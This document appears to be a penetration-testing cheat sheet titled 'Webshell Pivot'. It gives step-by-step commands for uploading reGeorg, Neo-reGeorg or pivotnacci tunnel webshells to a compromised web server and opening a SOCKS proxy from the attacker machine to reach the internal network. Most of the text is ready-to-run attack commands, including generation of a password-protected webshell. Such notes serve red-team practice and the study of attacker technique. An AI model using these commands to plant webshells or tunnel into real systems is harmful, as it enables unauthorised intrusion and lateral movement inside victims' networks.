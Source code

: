 # Webshell Pivot

## Tools: reGeorg / Neo-reGeorg / pivotnacci

Links: https://github.com/sensepost/reGeorg https://github.com/L-codes/Neo-reGeorg https://github.com/blackarrowsec/pivotnacci

## TIP: reGeorg is only compatible with Python 2.7, Neo-reGeorg with Python 2 and Python3

### 1) On the pivot machine, upload tunnel.(aspx|ashx|jsp|php) to the web server, like a WebShell.

### 2) On the attacker machine, open the tunnel

    python2 reGeorgSocksProxy.py -p 1080 -u https://$PIVOT:443/XXX/tunnel.jsp

#### To bypass socket issues, use the nosocket tunnel version:

    python2 reGeorgSocksProxy.py -l 127.0.0.1 -p 1081 -u https://$PIVOT:443/XXX//tunnel.nosocket.php

Then, you can use all of your tools by specifying a proxy, for example with Proxychains.

With Neo-reGeorg, it is possible to generate a WebShell with password. Many other options are present, check the help.

##### Generate the WebShells with a password

    python3 neoreg.py generate -k pivotpassword

##### After uploading it, connect the attacker machine like this

    python3 neoreg.py -k pivotpassword -u https://$PIVOT:443/tunnel.js

And with pivotnacci, after droping the agent:

    pivotnacci https://$PIVOT/agent.php --password $PASSWORD
